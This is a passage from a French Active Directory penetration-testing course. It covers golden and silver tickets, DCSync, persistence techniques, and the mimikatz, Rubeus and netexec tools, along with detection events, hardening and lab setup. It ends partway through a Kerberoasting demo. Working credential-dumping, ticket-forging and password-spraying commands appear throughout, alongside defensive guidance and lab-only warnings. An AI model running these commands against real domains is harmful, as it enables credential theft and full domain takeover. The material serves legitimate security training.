psexec.py -k -no-pass megacorp.local/Administrator@dc01.megacorp.local
```

| Option ticketer.py | Rôle |
| ------------------ | ---- |
| `-nthash <hash>` | Le hash NT du compte `krbtgt` (ou `-aes256`) |
| `-domain-sid S-...` | Le SID du domaine (récupérable via `Get-ADDomain` / `secretsdump`) |
| `-domain megacorp.local` | Le domaine |
| `Administrator` | Le compte à impersonner (peut être fictif) |

Mimikatz :

```
kerberos::golden /user:Administrator /domain:MEGACORP /sid:S-1-5-21-... /krbtgt:<hash_rc4> /ptt
```

Le `/ptt` injecte immédiatement le ticket dans la session. Depuis ce moment, **tous les services Kerberos du domaine** t'acceptent comme `Administrator` : machines, partages, WinRM.

#### Silver ticket

Le silver ticket est un **TGS forgé** pour un service précis (ex. `cifs/dc01`), signé avec la clé du **compte du service** (par exemple la clé du compte de la machine, obtenue via DCSync). Il n'implique pas le KDC et est donc **plus discret** (aucun échange avec le KDC ; il ne crée pas d'évènement de TGT). Mais il n'ouvre que **ce service** sur **cette machine** :

```bash
ticketer.py -nthash <hash_du_compte_machine_ou_service> -domain-sid S-1-5-21-... -domain megacorp.local -spn cifs/dc01.megacorp.local Administrator
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass megacorp.local/Administrator@dc01.megacorp.local
```

| Attaque | Secret volé | Ce que ça ouvre | Discrétion |
| ------- | ----------- | --------------- | ---------- |
| **Golden ticket** | Clé de `krbtgt` | TOUT le domaine (TGT forgenable) | Moyenne (crée des TGT) |
| **Silver ticket** | Clé d'un service/machine | Ce service sur cette machine | Haute (pas de KDC) |
| **DCSync** | Tous les hashes | Tout rejouable ensuite | Détectable (évènement 4662) |
| **NTDS.dit** | Tous les hashes | Idem, version « copie » | Très haute si copie furtive |

#### Exemple réel

Sur **Forest** (HTB), après avoir obtenu un compte aux droits de réplication (`Exchange Windows Permissions` + droit d'écrire sur l'objet domaine), on ajoute notre utilisateur au groupe de réplication, puis `secretsdump.py -just-dc-ntlm` exfiltre les hashes. Le hash de `krbtgt` permet un golden ticket → contrôle total. C'est le chemin « canonique » que tu reproduiras en labo.

#### Bonnes pratiques

- Détecter le DCSync : surveiller les évènements **4662** (opérations sur l'annuaire) et les connexions LDAP anormales vers les DC ; les tools modernes (Sysmon, ADACLScan) signalent les droits de réplication hors DC.
- Surveiller les évènements **4769** pour les TGS anormaux (golden/silver tickets) et les horodatages incohérents.
- **Changer la clé de `krbtgt` deux fois de suite** après une compromission (la première change la clé actuelle, la deuxième purge l'historique) — en prévoyant la réinitialisation des comptes de service impactés.
- Restreindre les droits de réplication au minimum absolu (seuls les DC).

#### Résumé

Le contrôle du domaine passe par le vol des hashes : **DCSync** (réplication simulée, `secretsdump.py`/mimikatz), **NTDS.dit** (copie de la base), puis la forge de **golden ticket** (clé `krbtgt` → tout le domaine) ou **silver ticket** (clé d'un service → ce service). Défenses : monitoring 4662/4769, restriction des droits de réplication, rotation double de `krbtgt` après incident.

---

### (k) La persistance dans AD

#### Définition

La **persistance** est l'ensemble des mécanismes qui garantissent que l'attaquant garde un accès au domaine **même après** la découverte de la compromission initiale, et **au-delà** de la session en cours.

**Analogie.** Le braquage réussi ne suffit pas : l'équipe veut pouvoir **rentrer par la porte de service** sans refaire le casse à chaque fois — une copie de la clé du directeur (backdoor), une clé dans le panier des fleurs (compte caché), un code que le personnel ne vérifie jamais (tâche planifiée).

#### Pourquoi

En pentest, la persistance démontre la **profondeur de la compromission** (impact réel d'une attaque : on ne « nettoie » pas un domaine en changeant un mot de passe). En red team, elle est indispensable pour garder l'accès entre les campagnes. En incident response, la comprendre permet de **purger** efficacement.

#### Les techniques de persistance AD

| Technique | Principe | Comment s'en protéger |
| --------- | -------- | --------------------- |
| **Nouveau compte privilégié** | Créer un compte `support_admin` ajouté à `Domain Admins` | Monitoring des créations de comptes + des ajouts aux groupes privilégiés (évènement 4728/4720) |
| **Modification d'un compte existant** | Ajouter un utilisateur banal à `Domain Admins` ou à `Backup Operators` | Audit des appartenances de groupes privilégiés |
| **AdminSDHolder** | Modifier l'ACL de l'objet `AdminSDHolder` pour que le compte choisi reçoive des droits élevés à chaque « AdminCount » | Le conteneur `AdminSDHolder` est ré-appliqué toutes les 60 min ; surveiller ses ACL |
| **SID History** | Ajouter le SID de `Domain Admins` dans l'attribut `sIDHistory` d'un compte contrôlé | Le `sIDHistory` est réputé pour la migration de domaine ; le surveiller via `Get-ADUser -Properties SIDHistory` |
| **Compte de machine compromis** | Voler la clé d'un compte d'ordinateur (machines ont des clés) pour forger des tickets (silver) | Rotation des comptes machine, détection des usages Kerberos inhabituels |
| **GPO malveillante** | Écrire une GPO qui installe un programme sur les machines de l'OU | Contrôle des droits d'écriture sur les GPO |
| **Script de connexion / Scheduled Task** | Programmer une tâche qui s'exécute sur les DC au démarrage | Monitoring des tâches planifiées sur les DC |
| **Golden/Silver ticket dormant** | La clé `krbtgt` volée reste valable tant qu'elle n'est pas changée | Rotation de `krbtgt` (double) après compromission |
| **Backdoor dans le schéma** | Ajouter un attribut ou une classe au schéma AD | Surveillance du schéma (droits Schema Admins) |

**AdminSDHolder** mérite un détail : c'est un objet spécial de l'opération **SDProp** (Security Descriptor Propagation). Toutes les 60 minutes, AD ré-applique les ACL de `AdminSDHolder` sur tous les objets protégés (`AdminCount = 1`). Si un attaquant modifie les ACL de `AdminSDHolder`, il crée une **backdoor auto-réparante** : chaque cycle rétablit ses droits. C'est la persistance la plus redoutée des blue teams.

#### Exemple réel

Dans un exercice GOAD, un red teamer compromise le domaine, vole le hash de `krbtgt` (golden ticket dormant), puis modifie l'ACL d'`AdminSDHolder` pour qu'un compte `svc_audit` (banal) reçoive `GenericAll` sur le domaine à chaque cycle SDProp. Même si l'équipe bleue change le mot de passe de tous les comptes, le `svc_audit` redevient omnipotent toutes les heures.

#### Bonnes pratiques

- **Purge en incident response** : identifier l'ensemble des accès (hashes, tickets, ACL, GPO, schéma) avant de « nettoyer » — un nettoyage incomplet relance l'attaque.
- La **rotation de `krbtgt`** est LA réponse au golden ticket ; elle doit être planifiée (deux rotations espacées).
- Auditer périodiquement les ACL d'`AdminSDHolder`, le `SIDHistory` et les appartenances aux groupes privilégiés.

#### Résumé

La persistance AD exploite la nature « auto-réparante » du système : nouveaux comptes, ajouts de groupes, `SIDHistory`, **AdminSDHolder**, GPO, tâches, clé `krbtgt`. Comprendre la persistance = savoir la détecter et la purger. Un domaine compromis n'est jamais « propre » tant que la clé `krbtgt` et les ACL critiques n'ont pas été remises à zéro.

---

### (l) Les outils : mimikatz, Rubeus, BloodHound, netexec

#### Définition

Quatre outils forment le cœur de la boîte à outils AD du pentester. Chacun couvre une phase : **mimikatz** (mémoire et secrets), **Rubeus** (Kerberos côté Windows), **BloodHound** (le graphe), **netexec** (le couteau suisse multi-protocoles).

#### mimikatz

**mimikatz** est l'outil mythique de Benjamin Delpy (gentilkiwi). Il extrait des secrets depuis la mémoire et le disque Windows : mots de passe en clair, hashes NT, tickets Kerberos, clés, etc.

| Commande | Effet |
| -------- | ----- |
| `privilege::debug` | Obtient le privilège SeDebugPrivilege (nécessaire pour lire lsass) |
| `sekurlsa::logonpasswords` | Liste les mots de passe/clés des sessions en cours (dans lsass) |
| `sekurlsa::tickets` | Liste et exporte les tickets Kerberos des sessions |
| `sekurlsa::pth /user:bob /domain:X /ntlm:H /run:cmd` | Pass-the-Hash : lance `cmd` comme `bob` |
| `kerberos::ptt ticket.kirbi` | Pass-the-Ticket : injecte un ticket |
| `kerberos::golden /user:... /domain:... /sid:... /krbtgt:... /ptt` | Forge et injecte un golden ticket |
| `kerberos::golden /user:... /domain:... /sid:... /target:... /service:cifs /rc4:... /ptt` | Forge un silver ticket pour un service |
| `lsadump::dcsync /domain:X /user:krbtgt` | DCSync : récupère le hash d'un compte |
| `lsadump::lsa /patch` | Déchiffre les secrets LSA en mémoire |
| `lsadump::sam` | Lit les hashes de la base SAM locale (comptes locaux) |

**Le point clé : `lsass`** (Local Security Authority Subsystem Service) est le processus qui gère la sécurité : il détient en mémoire les identifiants des utilisateurs connectés (pour le SSO). Si on lit `lsass` (ou qu'on dumpe son fichier `lsass.dmp`), on récupère les secrets. Défense : protection LSA (RunAsPPL), Credential Guard, et interdiction de `debug privilege` aux non-admins.

**Attaques réelles** : sur une machine compromis, `mimikatz "privilege::debug" "sekurlsa::logonpasswords"` récupère les identifiants de l'utilisateur connecté. Si un **admin de domaine** s'est connecté sur cette machine, c'est le domaine qui tombe.

#### Rubeus

**Rubeus** est un outil C# (compilé pour Windows) spécialisé dans **Kerberos côté Windows**, souvent plus propre que mimikatz pour les attaques de tickets.

| Commande | Effet |
| -------- | ----- |
| `Rubeus.exe kerberoast /outfile:hashes.txt` | Kerberoast : demande les TGS et écrit les hashes |
| `Rubeus.exe asreproast /outfile:hashes.txt /format:hashcat` | AS-REP Roast |
| `Rubeus.exe dump` | Extrait les tickets des sessions (avec `/luid` pour une session précise) |
| `Rubeus.exe ptt /ticket:base64_ou_fichier` | Injecte un ticket (Pass-the-Ticket) |
| `Rubeus.exe triage` | Liste les sessions et leurs tickets disponibles |

Rubeus et mimikatz se complètent : Rubeus excelle pour Kerberoast/AS-REP/tickets, mimikatz pour la mémoire (lsass), le PtH, les golden/silver tickets et le DCSync.

#### BloodHound (rappel outil)

Voir module (e) : collecteur (`SharpHound.exe --CollectionMethods All`) + base Neo4j + interface web. BloodHound est **l'outil n°1 de l'énumération et de la visualisation des chemins d'attaque** — « toujours BloodHound d'abord » est le réflexe professionnel n°1.

#### netexec (ex crackmapexec)

**netexec (nxc)** est le successeur de **crackmapexec (CME)** : un framework en Python qui teste des combinaisons identifiants/mots de passe/hashes contre plusieurs protocoles (SMB, WinRM, LDAP, MSSQL, SSH, RDP…).

```bash
# Test d'identifiants en masse
nxc smb 10.10.10.0/24 -u users.txt -p passwords.txt

# Avec un hash (PtH) et affichage des partages
nxc smb 10.10.10.5 -u administrator -H <hash> --shares

# Vérifier si une cible exige la signature SMB
nxc smb 10.10.10.5 -u '' -p '' -M smb_signing

# Dumper les hashes (si droits)
nxc smb 10.10.10.5 -u user -p pass --ntds

# Politique de mots de passe du domaine
nxc smb 10.10.10.5 -u user -p pass --pass-pol

# WinRM
nxc winrm 10.10.10.5 -u user -p pass
```

| Option | Rôle |
| ------ | ---- |
| `-u / -p` | Utilisateur(s) / mot de passe(s) (peuvent être des fichiers) |
| `-H` | Hash NT (PtH) |
| `--shares` | Liste les partages accessibles |
| `-M <module>` | Module (ex. `smb_signing`, `spider_plus`) |
| `--ntds` | Dump NTDS.dit si le compte a les droits |

netexec est devenu **l'outil de base pour tester rapidement un ensemble de comptes** avant de choisir la technique d'exploitation précise.

#### Exemple réel

Sur **Resolute** (HTB) : `nxc smb 10.10.10.169 -u users.txt -p '' --no-bruteforce` teste les comptes à mot de passe vide ou par défaut trouvés via l'énumération LDAP ; un compte `megan` répond ; on poursuit avec `GetADUsers` (impacket) et l'énumération DNS, puis `wmiexec.py` pour le contrôle. netexec a servi de « boîte de test » à chaque étape.

#### Bonnes pratiques

- **Signature des outils** : mimikatz et Rubeus sont massivement détectés par les EDR/AV. En red team, on les charge en mémoire (AMSI bypass, exécution indirecte) ; en pentest classique, on prévient le client.
- Lancer les tests en masse avec netexec, puis affiner avec l'outil spécialisé.
- Toujours sauvegarder les outputs (hashes, tickets) : ils servent pour la suite et pour le rapport.

#### Résumé

mimikatz (mémoire, lsass, PtH, golden/silver, DCSync), Rubeus (Kerberos côté Windows), BloodHound (graphe des chemins) et netexec (test multi-protocoles) forment le socle d'outillage AD. Chacun a un rôle précis ; la séquence type est : netexec pour tester, BloodHound pour cartographier, puis l'outil spécialisé pour frapper.

---

### (m) Détection et défenses

#### Définition

La défense AD est un ensemble de **politiques, de configurations et de surveillances** qui réduisent la surface d'attaque et rendent les attaques détectables. Elle repose sur deux piliers : **durcir** (empêcher) et **monitorer** (détecter).

**Analogie.** Durcir, c'est poser des **serrures à trois points** et couper le haut-parleur interne (LLMNR). Monitorer, c'est installer des **caméras** et un agent qui signale les allers-retours anormaux dans les couloirs.

#### Pourquoi

Un pentester AD doit connaître les défenses pour trois raisons : (1) choisir des techniques qui les contournent ou les respectent, (2) estimer la « détectabilité » de son test, (3) écrire un rapport utile — un client n'achète pas un test, il achète la liste des correctifs.

#### Durcissement de base

| Mesure | Contre quoi | Détail |
| ------ | ----------- | ------ |
| **Désactiver LLMNR/NBT-NS** (GPO) | LLMNR poisoning | La base de toutes les attaques réseau passives |
| **Signer SMB** (SMB signing required) | SMB relay | Bloque le relais d'authentification SMB |
| **Mots de passe longs pour les comptes de service** | Kerberoasting | 25+ caractères rendent le cracking prohibitif |
| **Comptes gMSA** | Kerberoasting | Le mot de passe est auto-géré par AD (rotation) |
| **Pré-authentification Kerberos obligatoire** | AS-REP Roasting | Supprimer `DONT_REQUIRE_PREAUTH` |
| **NTLM restreint** | PtH, relais | Privilégier Kerberos ; restreindre NTLM via GPO |
| **Credential Guard + LSA Protection (RunAsPPL)** | mimikatz (lsass) | Empêche la lecture de lsass par les non-admins |
| **Admin tier model** | Toutes les escalades | Sépare comptes postes / serveurs / domaine |
| **Privilège du moindre** : droits de réplication réservés aux DC | DCSync | Vérifier que peu de comptes ont `Replicating Directory Changes` |
| **Rotation de `krbtgt` après incident** | Golden ticket | Deux rotations pour purger l'historique |
| **PAM / GPO dédiées pour les comptes privilégiés** | Vol de session | Comptes admin limités aux machines d'administration |

#### Monitoring — les évènements clés

| ID évènement | Ce qu'il signale | Attaque associée |
| ------------ | ---------------- | ---------------- |
| **4768** | Émission d'un TGT | AS-REP Roast (TGT anormaux pour des comptes sans pré-auth) |
| **4769** | Émission d'un TGS | Kerberoasting (TGS vers des comptes de service sans accès) |
| **4624 / 4625** | Connexions réussies / échouées | Bruteforce, PtH répété |
| **4648** | Connexion explicite avec d'autres identifiants | PtH / vol de session |
| **4662** | Opération sur l'annuaire | DCSync (accès aux attributs de réplication) |
| **4720 / 4728** | Création de compte / ajout à un groupe privilégié | Persistance |
| **5136 / 5137** | Modification de GPO | Persistance par GPO |
| **4670 / 4672** | Modification d'ACL / attribution de privilèges | AdminSDHolder, délégations |
| **4616** | Modification de l'horloge système | Manipulation de tickets |

**Signatures comportementales** (au-delà des évènements Windows) :
- Accès LDAP répétés vers un DC par un même compte non-DC (collecte BloodHound).
- Connexions de type `wmiexec`/`psexec` (partages administratifs `ADMIN$`, WMI) vers plusieurs machines depuis une seule source.
- Résolution de noms anormale (LLMNR/NBT-NS) sur un réseau où ils sont censés être désactivés.
- Tickets Kerberos à durée anormalement longue ou pour des comptes n'existant pas (golden ticket).

#### Outils de défense / test

| Outil | Rôle |
| ----- | ---- |
| **AD ACL Scanner (BloodHound edition)** | Analyse les ACL de l'annuaire et liste les droits dangereux |
| **PurpleKnight** (défense) | Audite la configuration AD (gratuit) |
| **PingCastle** | Score de risque AD (healthcheck) |
| **Sysmon** | Collecte détaillée (accès lsass, injections) |
| **Microsoft Defender for Identity / Azure ATP** | Détection comportementale AD (Kerberoast, DCSync, relais) |
| **Splunk / Elastic / Sentinel** | Corrélation des évènements 4662/4768/4769 |

#### Exemple réel

Sur **Forest** (HTB), la défense minimale qui aurait stoppé le chemin : (1) droits de réplication retirés du groupe `Exchange Windows Permissions` (ou surveillés via l'évènement 4662) — le DCSync aurait été bloqué ; (2) un monitoring 4769 aurait signalé la demande de TGS inhabituelle de `svc-alfresco`. Les défenses ne sont pas magiques : elles ciblent les techniques de ce cours.

#### Bonnes pratiques

- Le **tier model** est la défense structurelle la plus efficace : il empêche les combos « admin connecté sur un poste vulnérable ».
- Les tests de détection (purple team) doivent **valider** que chaque attaque de ce cours déclenche bien une alerte ; si non, c'est un trou à combler.
- Documenter les évènements à corréler : sans corrélation, un seul 4662 isolé n'alerte personne.

#### Résumé

Se défendre contre les attaques AD, c'est durcir (LLMNR coupé, SMB signé, mots de passe longs, gMSA, Credential Guard, tier model, droits de réplication limités) et monitorer (évènements 4768/4769/4624/4662/4720 + corrélation). Chaque attaque de ce cours a une contre-mesure : ton rapport doit les lister.

---

### (n) Introduction aux laboratoires AD

#### Définition

Pour s'entraîner à attaquer AD **légalement**, on utilise des **laboratoires** : des environnements Windows virtualisés volontairement vulnérables, conçus pour être détruits et reconstruits.

**Analogie.** Un labo, c'est le **mannequin de crash test** : on reproduit les conditions réelles d'un domaine, mais on a le droit de tout casser, car rien n'est en production.

#### GOAD

**GOAD** (Game of Active Directory) est un projet open-source de Mayfly (GitHub : `Orange-Cyberdefense/GOAD`) : un petit domaine AD complet (plusieurs DC, machines membres, GPO, vulnérabilités volontaires) déployable avec Vagrant/Ansible sur VMware ou Proxmox. C'est **le** terrain d'entraînement le plus réaliste disponible gratuitement : il contient les erreurs de configuration classiques que tu apprends à trouver (Kerberoastables, AS-REP, relais, délégations, AdminSDHolder…).

```
GOAD (réseau 192.168.56.0/24 par défaut)
├── dc01.sevenkingdoms.local          (DC1 - Windows Server)
├── dc02.sevenkingdoms.local          (DC2)
├── srv01.sevenkingdoms.local         (serveur membre)
├── workstation01                     (poste Windows membre)
└── ... selon la version (GOAD 1 ou 2)
```

**Mise en place** : il faut VirtualBox/VMware + Vagrant + Ansible ; ~20 Go d'images Windows ; ~1 h de déploiement. Le dépôt GOAD fournit les playbooks et les notes d'installation (en anglais). C'est l'investissement recommandé pour la suite de ta carrière.

#### Windows lab maison

Alternative plus légère : une machine Windows Server (évaluation gratuite 180 jours) avec Active Directory installé (rôle AD DS), un ou deux postes Windows 10/11 Pro, configurés en domaine. Un labo maison « planifié vulnérable » : un compte de service à mot de passe faible, un compte sans pré-auth, un partage ouvert, un admin connecté sur un poste. Les vidéos de **John Hammond**, **IppSec**, **0xdf** et les tutoriels GOAD montrent des exemples précis.

#### Plateformes avec machines AD

| Plateforme | Machines AD notables | Particularité |
| ---------- | -------------------- | ------------- |
| **HackTheBox** | Forest, Sauna, Resolute, Active, Escalator, Monteverde | Machines réalistes ; dossiers « Retired » avec write-ups |
| **TryHackMe** | Rooms « Active Directory Basics », « Attacktive Directory », « Breaching AD » | Guidées pas à pas, idéales débutant AD |
| **GOAD** | Auto-hébergé | Le plus complet et le plus vulnérable |

**Niveau 9 en pratique** : commence par les rooms TryHackMe AD (guidées), reproduis sur GOAD, puis tente une machine HTB « Active Directory » (ex. **Forest**, machine « easy » mais très pédagogique).

#### Bonnes pratiques

- **Toujours un réseau isolé** pour le labo (pas de route vers Internet sur les machines victimes) : tu attaques des Windows volontairement vulnérables.
- Conserver des **snapshots** : un labo cassé se restaure en 2 minutes.
- Documenter tes sessions (notes, commandes) : c'est ton futur write-up et ton futur rapport.
- Tester d'abord les outils Linux (impacket) et les outils Windows dans l'ordre du cours.

#### Résumé

Les laboratoires AD (GOAD, labo maison, machines HTB/THM) reproduisent les conditions réelles d'un domaine vulnérable dans un cadre autorisé. GOAD est la référence open-source ; HTB/THM sont des portes d'entrée guidées ; un labo maison « planifié vulnérable » permet d'expérimenter chaque attaque de ce cours.

---

## Visualisation

> ⚠️ **Légal** — Les schémas décrivent des architectures et des flux ; ils ne contiennent aucune commande à exécuter. Les attaques illustrées ne sont valables que sur un laboratoire autorisé.

### 1. Architecture Active Directory



**Lecture** : au centre, les DC servent l'annuaire et le KDC. Les OU regroupent les objets ; les groupes portent les permissions ; les domaines sont reliés par des confiances transitives ; la forêt est la frontière de sécurité ultime (Enterprise Admins).

### 2. Schéma Kerberos complet



**Les secrets en jeu** : la clé d'Alice (le mot de passe, l'utilisateur le connaît), la clé de `krbtgt` (le KDC seul la connaît — c'est le golden ticket), et la clé du compte de service (le TGS est chiffré avec — c'est le Kerberoasting).

### 3. NTLM challenge/response (ASCII)

```
  Client (Alice)                         Serveur (srv01)
       │                                     │
       │  1. NEGOTIATE (domaine, protocoles) │
       │────────────────────────────────────▶│
       │                                     │
       │  2. CHALLENGE (8 octets aléatoires) │
       │◀────────────────────────────────────│
       │                                     │
       │  3. AUTHENTICATE :                  │
       │     réponse = f(challenge,          │
       │                HMAC-MD5(hashNT,     │
       │                challenge + contexte │
       │                + domaine + user))   │
       │────────────────────────────────────▶│
       │                                     │
       │  4. le serveur refait le calcul :   │
       │     égal → OK (code 0)              │
       │                                     │

  ┌─────────────────────────────────────────────┐
  │ Le hash NT = MD4(UTF-16LE(mot de passe))    │
  │ 32 caractères hexa. C'est LUI qu'on vole     │
  │ (DCSync) et qu'on rejoue (Pass-the-Hash).    │
  │ En réseau, ce qui circule est la RÉPONSE,    │
  │ pas le hash NT (NETNTLMv2) → se casse/relaie.│
  └─────────────────────────────────────────────┘
```

### 4. Un chemin d'attaque BloodHound

```mermaid
graph LR
    A[alice.jones<br/>(compte faible)] -->|MemberOf| B[Groupe<br/>IT Support]
    B -->|GenericAll sur| C[Ordinateur<br/>PC-Admin-SRV]
    D[administrateur.domaine] -->|Has Session sur| C
    A -->|AdminTo| E[Serveur<br/>srv-files]
    E -->|AdminTo| F[DC01<br/>Domain Controller]
    D -->|MemberOf| G[Domain Admins]
    F -->|Contrôle| G
    G -->|Full Control| H[🟢 DOMAINE<br/>CONTROLÉ]
```

**Lecture** : BloodHound calcule que le compte faible `alice.jones` peut (via le groupe IT Support qui a `GenericAll` sur un poste, poste où un admin de domaine est connecté) voler la session de l'admin → `Domain Admins` → domaine contrôlé. Chaque nœud et arête est une vraie relation d'AD détectée par la collecte.

### 5. Tableau des attaques

| Attaque | Prérequis | Impact | Discrétion |
| ------- | --------- | ------ | ---------- |
| **Énumération LDAP/BloodHound** | Un compte valide | Carte complète des chemins | Moyenne (bruit LDAP) |
| **Kerberoasting** | Compte valide + SPN existants | Mot de passe d'un compte de service | Haute |
| **AS-REP Roasting** | Comptes sans pré-auth | Mot de passe d'un compte | Haute |
| **LLMNR/NBT-NS poisoning** | Être sur le LAN + faute de frappe d'un utilisateur | Hash NetNTLMv2 d'un utilisateur | Moyenne (trafic anormal) |
| **SMB relay** | Capture + cible sans signature SMB + compte à droits | Shell sur une machine | Moyenne |
| **Pass-the-Hash** | Hash NT + droits sur la cible | Exécution distante | Moyenne (services créés) |
| **Pass-the-Ticket** | Ticket volé | Accès en tant que le titulaire | Haute |
| **Overpass-the-Hash** | Hash NT | Accès Kerberos | Haute |
| **DCSync** | Droits de réplication | Tous les hashes du domaine | Moyenne (évt 4662) |
| **Golden ticket** | Clé `krbtgt` | Contrôle total du domaine | Moyenne |
| **Silver ticket** | Clé d'un service | Accès à ce service | Haute |

### 6. Kerberoasting vs AS-REP vs PtH vs PtT vs DCSync

| Critère | Kerberoasting | AS-REP Roasting | Pass-the-Hash | Pass-the-Ticket | DCSync |
| ------- | ------------- | --------------- | ------------- | --------------- | ------ |
| **Secret volé** | TGS (ticket de service) | TGT (ticket d'authentification) | Hash NT | Ticket Kerberos | Tous les hashes NT |
| **Source du secret** | KDC (sur demande) | KDC (sur demande) | lsass / NTDS.dit / capture | Mémoire lsass / Rubeus dump | Réplication AD (DRSR) |
| **Besoin de casser ?** | Oui (offline) | Oui (offline) | Non | Non | Non |
| **Niveau d'accès obtenu** | Compte de service | Compte utilisateur | Ce que le compte peut | Ce que le ticket permet | Tout le domaine |
| **Format hashcat** | 13100 | 18200 | — (utilisé tel quel) | — | — |
| **Outil type** | `GetUserSPNs.py`, Rubeus | `GetNPUsers.py`, Rubeus | `psexec.py`, netexec, mimikatz | `kerberos::ptt`, Rubeus `ptt` | `secretsdump.py`, mimikatz `dcsync` |
| **Détection principale** | Évt 4769 | Évt 4768 | Évt 4624/4648 + `ADMIN$` | Évts 4624/4625 | Évt 4662 |
| **Défense** | Mots de passe longs, gMSA | Pré-auth obligatoire | Credential Guard, NTLM restreint | Protection lsass, tickets courts | Droits de réplication limités |

---

## Démonstration

> ⚠️ **Légal** — Les cinq démonstrations se font **uniquement sur un laboratoire AD isolé et autorisé** : GOAD (réseau `192.168.56.0/24`), une machine HackTheBox (ex. `FOREST` sur `10.10.10.161`) ou TryHackMe, ou un labo maison. **Jamais sur un domaine réel.** Ces environnements sont faits pour être attaqués ; ils seront détruits ou réinitialisés après le test.

---

### Démo 1 — Énumérer le domaine avec BloodHound et trouver un chemin d'attaque

**Contexte.** Tu es sur ta Kali Linux, dans le labo GOAD. Tu as obtenu des identifiants faibles via l'énumération initiale : `alice:Password123!` sur le domaine `sevenkingdoms.local`. Le DC est `dc01` (`192.168.56.10`).

**Objectif.** Lancer une collecte BloodHound (`bloodhound-python`), charger les données dans BloodHound (Neo4j), et identifier le chemin le plus court vers `Domain Admins`.

**Étape 1 — Préparer BloodHound (interface + base Neo4j).**

```bash
sudo neo4j start
bloodhound
```

**Explication ligne par ligne.**

| Élément | Explication |
| ------- | ----------- |
| `sudo neo4j start` | Démarre la base de données de graphe **Neo4j** (BloodHound l'utilise pour stocker les nœuds et arêtes) |
| `bloodhound` | Lance l'interface graphique BloodHound ; premier lancement : te connecter à `bolt://localhost:7687` avec les identifiants Neo4j (définis au premier démarrage) |

**Étape 2 — Collecter les données depuis Kali.**

```bash
bloodhound-python -u alice -p 'Password123!' -d sevenkingdoms.local -ns 192.168.56.10 -c All
```

**Explication ligne par ligne.**

| Élément | Explication |
| ------- | ----------- |
| `bloodhound-python` | Collecteur Linux de BloodHound : interroge LDAP et interroge les machines du domaine comme SharpHound le ferait depuis Windows |
| `-u alice -p 'Password123!'` | Compte et mot de passe pour s'authentifier sur l'annuaire |
| `-d sevenkingdoms.local` | Domaine à collecter |
| `-ns 192.168.56.10` | Serveur DNS à utiliser (le DC) — indispensable pour résoudre les noms AD |
| `-c All` | Méthodes de collecte complètes (groupes, sessions, ACL, partages, trusts) |

**Résultat attendu :**

```text
INFO: Found AD domain: sevenkingdoms.local
INFO: Connecting to LDAP server: dc01.sevenkingdoms.local
INFO: Connecting to LDAP server: dc02.sevenkingdoms.local
INFO: Found 3 domains in forest
INFO: Beginning LDAP search for 'users'...
INFO: Beginning LDAP search for 'groups'...
INFO: Beginning LDAP search for 'computers'...
INFO: ...
INFO: Done in 00M 24S
```

Les fichiers JSON/ZIP (`20240806_..._bloodhound.zip`) apparaissent dans le répertoire.

**Étape 3 — Importer dans BloodHound.**

```bash
# dans BloodHound : menu "Upload Data" → glisser le fichier zip
```

**Étape 4 — Marquer ton point de départ.** Dans la barre de recherche, trouve `alice`, puis « Mark User as Owned » (marquer comme possédé). C'est le point de départ de tes chemins.

**Étape 5 — Lancer la requête clé.**

Dans l'onglet « Analysis » → `Shortest Paths to Domain Admins`.

**Résultat attendu :**

```text
alice --> MemberOf --> IT Support
IT Support --> AdminTo --> SRV01
SRV01 --> HasSession --> svc-backup (BACKUP_OPERATORS)
BACKUP_OPERATORS --> ... --> Domain Admins
```

**Analyse.** BloodHound a transformé des milliers d'attributs LDAP en un chemin actionnable. Le membre de groupe, la session, les droits locaux sont autant d'arêtes que tu n'aurais jamais toutes trouvées à la main. Le chemin montre : avec `alice`, on accède à `SRV01` ; sur `SRV01` est connecté `svc-backup`, qui appartient à `Backup Operators` (groupe pouvant extraire les hashes du DC). Le contrôle du domaine devient atteignable.

**Erreurs fréquentes.**

| Erreur | Symptôme | Cause | Correction |
| ------ | -------- | ----- | ---------- |
| Neo4j non démarré | « Failed to connect to neo4j » | La base ne tourne pas | `sudo neo4j start` puis vérifier avec `cypher-shell -u neo4j` |
| Résolution DNS | « LDAP connection failed » | `-ns` absent ou mauvais | Toujours fournir le DC comme serveur DNS (`-ns`) |
| Collecte trop partielle | Chemins manquants | `-c All` absent | Relancer avec `-c All` |
| Compte verrouillé | `Authentication failed` | Trop d'essais LDAP | Attendre le déverrouillage (politique du labo) |

**Correction d'erreur fréquente.** Si l'interface BloodHound ne se connecte pas à Neo4j, vérifie le mot de passe par défaut (`neo4j`/`neo4j` au premier lancement, à changer immédiatement) et l'URL `bolt://localhost:7687`.

---

### Démo 2 — Kerberoasting : GetUserSPNs.py puis cracker le ticket

**Contexte.** Sur le même labo, tu es maintenant membre de `IT Support` (via la collecte BloodHound de la démo 1) et tu utilises le compte `james:Winter2021!` qui est dans ce groupe. BloodHound a signalé des comptes Kerberoastables.

**Objectif.** Demander les TGS des comptes de service avec `GetUserSPNs.py`, les convertir, puis casser le ticket avec `john` pour obtenir un mot de passe en clair.

**Étape 1 — Demander les tickets.**

```bash
GetUserSPNs.py sevenkingdoms.local/james:'Winter2021!' -dc-ip 192.168.56.10 -request
```

**Explication ligne par ligne.**

| Élément | Explication |
| ------- | ----------- |
| `GetUserSPNs.py` | Outil impacket : énumère les SPN du domaine et demande les TGS pour chaque compte de service |
| `sevenkingdoms.local/james:'Winter2021!'` | Domaine + compte + mot de passe (tout utilisateur authentifié peut demander un TGS) |
| `-dc-ip 192.168.56.10` | Adresse du KDC/DC à interroger |
| `-request` | Demande réellement les tickets (sinon il ne fait qu'énumérer les SPN) |

**Résultat attendu :**

```text
ServicePrincipalName                    Name          MemberOf  PasswordLastSet             LastLogon
-------------------------------------   ------------  --------  ------------------------   -----------
sevenkingdoms.local/svc-sql             svc-sql                 2024-03-01 08:14:22.134502

$krb5tgs$23$*svc-sql$SEVENKINGDOMS.LOCAL$svc-sql*$8de...d3f1
```

**Étape 2 — Sauvegarder le hash dans un fichier.**

```bash
echo '$krb5tgs$23$*svc-sql$SEVENKINGDOMS.LOCAL$svc-sql*$8de...d3f1' > kerberoast.txt
```

**Étape 3 — Casser avec john.**

```bash
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.txt
```

**Explication ligne par ligne.**

| Élément | Explication |
| ------- | ----------- |
| `john` | John the Ripper : casseur de mots de passe par dictionnaire |
| `--format=krb5tgs` | Indique le format « ticket de service Kerberos » (correspond au préfixe `$krb5tgs$23$`) |
